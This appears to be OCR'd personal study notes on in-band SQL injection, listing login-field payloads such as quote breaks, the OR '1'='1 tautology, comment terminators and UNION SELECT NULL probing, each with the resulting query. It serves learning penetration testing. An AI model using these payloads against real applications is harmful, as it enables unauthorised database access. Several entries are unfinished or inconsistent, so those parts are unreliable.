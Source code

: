 *In-band SQL injections** leverage the same channel used to inject the SQL code (i.e. the pages generated by the web application).

During and in-band attack the penetration tester finds a way to ask the the web application for the desired information.

Try the following payloads:

- **'**,**"**: This can cause syntax error
  We enter **Thomas'**

  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Thomas'';
  ```

  In order to avoid that, we leverage the *SQLi Balacing Act* together with a *Binary Interference*
  We enter **Thomas' OR '1'='1**
  
  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Thomas' OR '1'='1';
  ```

  We try to do *String injections*
  We enter **Tho'/\**/'mas**

  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Tho'/**/'mas' OR '1'='1';
  ```

- **';#**,**';--**,**;%00**,**`** : Closes the string and closes the SQL statement and comment the rest of it
  We enter **Thomas'; --**

  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Thomas'; --';
  ```

As you can see, **--** and **#** can be really be helpfull as they don't need to be delimited such as **\'\/\*** **\*/'**

- **'*'**:
  &#8594; Mean
- **'^'**:
  &#8594; Mean regular expression ?
- **'&'**:

2) Leveraging UNION and NULL

- UNION: Column types needs to be compatible
- NULL: Matches any types of data
  &#8594; SELECT ..... **' UNION SELECT NULL, NULL, NULL, ...**
